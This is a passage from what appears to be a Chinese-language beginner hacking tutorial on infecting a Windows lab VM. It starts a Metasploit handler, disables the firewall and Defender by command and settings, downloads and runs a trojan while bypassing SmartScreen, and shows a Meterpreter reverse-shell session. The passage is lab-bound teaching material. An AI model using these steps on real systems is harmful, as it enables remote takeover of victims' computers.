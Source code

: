     ```
    msf6 exploit(multi/handler) > `set LHOST` `10.0.9.x`
    ```

    Metasploit 会响应 `LHOST =>` `10.0.9.x`，表示本地主机选项已正确设置。

1.  最后，等了这么久的时刻终于到了：启动漏洞利用！

    ```
    msf6 exploit(multi/handler) > `exploit -j` 
    ```

    `-j` 选项告诉 Metasploit 将处理程序放到后台运行，这样你就可以在等待感染的机器连接到 Kali 虚拟机时继续使用 msfconsole。Metasploit 会确认漏洞利用在后台运行，准备接受来自 `10.0.9.x:4444` 或你 Kali 虚拟机的端口 4444 上的传入连接。

## 感染你的 Windows 虚拟机

我们的木马已经准备就绪，接下来是时候感染你的 Windows 虚拟机了。首先，我们将禁用几个 Windows 安全功能，这些功能通常会让用户难以做出像下载并打开互联网上可疑文件这样愚蠢的行为。然后，关闭这些安全功能后，我们就正是要做这些愚蠢的事情。

记住，你的 Windows 虚拟机是为了让你安全地练习黑客技能而创建的。如果你搞砸了，比如感染了木马，你可以简单地删除 Windows 虚拟机并创建一个新的。考虑到这一点，启动你的 Windows 10 虚拟机，在提示时输入用户名 `IEUser` 和密码 `Passw0rd!`，然后开始吧。

1.  在 Windows/Cortana 搜索栏中输入 `cmd` 查找命令提示符。右键点击并选择 **以管理员身份运行**。在弹出的窗口中询问你是否允许该应用程序对设备进行更改时，点击 **是**。

1.  在出现的“管理员：命令提示符”窗口中，输入此命令来关闭 Windows 虚拟机的防火墙：

    ```
    C:\Windows\system32> `netsh advfirewall set allprofiles state off`
    ```

    通常，*防火墙* 会阻止外部计算机的恶意或不必要流量，并且它可以防止你的计算机与恶意服务器建立可疑连接。执行此命令后，你可能会看到弹出的消息“打开 Windows 防火墙。” Windows 正在警告你关闭防火墙是危险的——确实如此！——但这正是我们第一次远程攻击所需要的。

1.  接下来，我们将关闭 Windows Defender，这是另一种安全工具。在搜索栏中输入 `virus`，然后打开 **病毒与威胁防护** 设置。

1.  点击 **管理设置**，将实时保护和云端防护的切换按钮滑到 **关闭**。Windows 会再次询问你是否允许此应用程序对设备进行更改。点击 **是**。你的 Windows 10 虚拟机现在和地球上四分之一的计算机一样脆弱。

1.  打开 Edge 浏览器，访问 *http://<10.0.9.x>/share/*。

1.  点击你的木马并选择**保存**，将文件下载到你的 Windows 虚拟机的 *下载* 文件夹中。

1.  关键时刻：打开 Windows 虚拟机的 *下载* 文件夹，双击木马可执行文件运行它。

1.  事实证明，Windows 10 计算机有一层额外的病毒保护，以防止像我们刚刚犯的愚蠢错误：Windows Defender SmartScreen 会弹出警告，显示“已阻止一个无法识别的应用程序启动”，如图 6-4 所示。点击 **更多信息** 然后选择 **继续运行**。

你现在已经控制了你的第一台计算机！你不会在 Windows 虚拟机上看到任何变化，但如果你切换回 Kali 虚拟机，应该会在 msfconsole 中看到类似以下内容：

```
[*] Sending stage (179779 bytes) to 10.0.9.5
[*] Meterpreter session 1 opened (10.0.9.4:4444 -> 10.0.9.5:49830) at 2021-06-11 12:39:46 -0400
```

被感染的 Windows 虚拟机已回拨到 Kali 并建立了连接（也叫做 *会话*）。恭喜你：Windows 虚拟机现在正在等待你的命令！
